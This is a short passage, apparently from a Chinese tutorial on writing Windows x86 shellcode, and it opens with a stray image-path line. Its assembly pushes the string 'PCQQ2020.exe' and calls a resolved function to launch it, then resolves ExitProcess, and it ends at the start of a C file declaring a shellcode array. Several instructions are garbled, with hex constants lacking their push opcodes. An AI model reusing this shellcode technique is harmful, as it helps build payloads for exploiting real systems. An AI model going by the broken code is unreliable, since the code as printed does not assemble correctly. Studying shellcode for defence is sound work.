 ```
xor ecx,ecx
push ecx
0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP

push esp
pop ecx

xor edx,edx
push edx
push ecx

call eax
;-------------------------

add esp,8
```
- 结束进程
```
;-----------------------------

;finding address of ExitProcess()
xor ecx,ecx
push 0x41737365
mov [esp+3],byte cl
push 0x636f7250
push 0x74697845

push esp
push edi

call esi

;--------------
call eax


```

- 修改.c文件:  

```

#include<stdio.h>
#include<string.h>
#include <windows.h>


char shellcode[] = 
```